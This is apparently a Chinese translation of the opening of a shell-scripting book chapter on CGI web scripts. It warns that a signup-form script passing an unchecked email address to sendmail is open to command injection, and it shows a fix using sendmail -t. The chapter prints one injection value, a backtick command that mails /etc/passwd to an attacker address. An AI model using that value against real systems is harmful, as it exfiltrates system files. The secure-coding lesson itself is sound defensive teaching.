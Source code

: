 ## **8**

**WEBMASTER HACKS**

![image](img/common4.jpg)

除了提供一个很好的环境来构建与各种网站协作的巧妙命令行工具外，Shell 脚本还可以改变你自己网站的运作方式。你可以使用 Shell 脚本编写简单的调试工具，按需创建网页，甚至构建一个照片集浏览器，自动将上传到服务器的新图像合并进来。

本章中的脚本都是*通用网关接口（CGI）*脚本，用于生成动态网页。在编写 CGI 脚本时，你应时刻注意可能存在的安全风险。最常见的攻击之一就是攻击者通过一个易受攻击的 CGI 或其他 Web 语言脚本访问并利用命令行，令 Web 开发者措手不及。

请考虑一个看似无害的示例——一个 Web 表单收集用户的电子邮件地址，如示例 8-1 所示。处理表单的脚本将用户的信息存储在本地数据库中，并发送确认邮件。

```
( echo "Subject: Thanks for your signup"
  echo "To: $email ($name)"
  echo ""
  echo "Thanks for signing up. You'll hear from us shortly."
  echo "-- Dave and Brandon"
) | sendmail $email
```

*示例 8-1：向 Web 表单用户的地址发送电子邮件*

看起来没问题吧？现在，假设用户输入的不是像*taylor@intuitive.com*这样的正常电子邮件地址，而是类似于下面这样的内容：

```
`sendmail d00d37@das-hak.de < /etc/passwd; echo  taylor@intuitive.com`
```

你能看到其中潜伏的危险吗？这不仅仅是发送一封简短的电子邮件到指定地址，而是将你的*/etc/passwd*文件副本发送到一个不法分子，邮件地址是*@das-hak.de*，可能被用作对你系统安全发动有针对性的攻击。

因此，许多 CGI 脚本都是在更注重安全的环境中编写的——特别是带有`-w`选项的 Perl 脚本（即 Shell 脚本顶部的`!#`部分），这样如果数据来自外部源且未经过清洗或检查，脚本将会失败。

但是，Shell 脚本缺乏安全功能并不意味着它在 Web 安全领域中不重要。它只是意味着你需要意识到潜在的安全问题，并消除它们。例如，在示例 8-1 中的一个小改动就能防止潜在的黑客提供恶意外部数据，如在示例 8-2 中所示。

```
( echo "Subject: Thanks for your signup"
  echo "To: $email ($name)"
  echo ""
  echo "Thanks for signing up. You'll hear from us shortly."
  echo "-- Dave and Brandon"
) | sendmail -t
```

*示例 8-2：使用* `*-t*` 发送电子邮件

